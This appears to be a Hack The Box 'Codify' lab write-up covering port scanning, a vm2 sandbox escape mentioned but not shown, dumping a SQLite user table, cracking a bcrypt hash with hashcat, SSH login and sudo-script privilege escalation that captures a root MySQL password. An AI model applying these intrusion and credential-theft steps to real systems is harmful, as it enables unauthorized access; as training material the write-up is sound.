







# Hack The Box : Codify
## Difficulty : Easy
## OS : Linux

## Enumeration:

I'll start with a simple port scan:

```bash
nmap -sC -sV -p- -oN outputNMAP.txt 10.129.6.231
```



I'll take a look at the web server on port 3000.



Following the "Try It Now" button we get to this page.


I'll try to run some simple JS.



We can assume this is a jailbreak type vulnerability. Looking around the site we find out "vm2" library is used for sandboxing.



I found multiple jailbreak tehniques for this library.

Using the following payload I managed to get a reverse shell.

## Pillaging

Looking through the system I find a "tickets.db" file in "var/www/contact". I will enumerate the data base.

```bash
cd /var/www/contact
sqlite3
.open tickets.db
.schema
select * from users
.quit
```

I found a hash for the password of "joshua".

```markdown
3|joshua|$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
```

I'll use hascat to crack the password.


```bash
echo "$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2" >hash.txt
hashid
$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2

hashcat -m 3200 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

Output:
```bash
$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2:spongebob1
```

## Foothold 2

I'll connect via ssh as the user "joshua".

```bash
ssh joshua@10.129.6.231
spongebob1
```



I will get the user flag.

```bash
ls
cat user.txt
```

## We got the user flag!

## Privilege Escalation

We find out we can run a sh script as sudo.

```bash
sudo -l
```

Output:
```bash
User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```

Inspecting the file we find out the following:

```bash
ls -la /opt/scripts/mysql-backup.sh
-rwxr-xr-x 1 root root 928 Nov  2  2023 /opt/scripts/mysql-backup.sh

cat /opt/scripts/mysql-backup.sh
```




Found out I can use a wildcard character to bypass script authentification.



I'll get pspy iont the system and see how the command is executed.

We get this.
```bash
/usr/bin/mysql -u root -h 0.0.0.0 -P 3306 -pkljh12k3jhaskjh12kjh3 -e SHOW DATABASES;
```

I'll login as root.

```bash
su root
kljh12k3jhaskjh12kjh3
```


Now I'll get the root flag.

```bash
cat /root/root.txt
```

## We got the root flag!